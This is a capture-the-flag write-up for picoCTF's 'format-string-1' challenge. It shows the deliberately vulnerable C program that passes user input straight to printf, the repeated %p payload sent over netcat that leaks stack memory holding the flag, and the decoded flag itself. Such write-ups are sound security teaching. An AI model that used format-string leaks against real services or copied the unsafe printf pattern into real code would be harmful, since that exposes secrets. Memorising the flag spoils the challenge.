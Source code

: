 # format-string-1.md

flag : picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}

## My Approach

I first checked the source code

```
#include <stdio.h>


int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```
we see a string vulnerability, they are not printing string using %s.              
Similar to a previous chall, so I simply gave an input of %p, multiple times, thru hit and trial method. The hint said 32 bytes or 64 bytes, so I entered 32 %p's, I don't know if that was relevant but okay.    
And I got :     
```
 0x402118,(nil),0x7e1c68fc1a00,(nil),0x5d4880,0xa347834,0x7ffd8cce8220,0x7e1c68db2e60,0x7e1c68fd74d0,0x1,0x7ffd8cce82f0,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,
0x7d383130386531,0x7,0x7e1c68fd98d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9,0x7e1c68feade9,0x7e1c68dbb098,0x7e1c68fd74d0,(nil),0x7ffd8cce8300,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70
```

I put this on CyberChef (from Hex) and got the flag reversed, after which I reversed the flag and got the correct answer.

![image](https://github.com/user-attachments/assets/fe2d077c-63d9-424a-bfc2-5374a2a43536)                   

## Terminal Ouput :
```
avantikasanyal@LAPTOP-CFRE3HMA:~$ nc mimas.picoctf.net 55797
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x7e1c68fc1a00,(nil),0x5d4880,0xa347834,0x7ffd8cce8220,0x7e1c68db2e60,0x7e1c68fd74d0,0x1,0x7ffd8cce82f0,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531,0x7,0x7e1c68fd98d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9,0x7e1c68feade9,0x7e1c68dbb098,0x7e1c68fd74d0,(nil),0x7ffd8cce8300,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70
Bye!
```

## What I learnt?
1. Format String vul
2. Stack Layout
3. Decoding Hex Values

##  Errors :
I was reversing the flag wrong, I spent SO many hours on it.
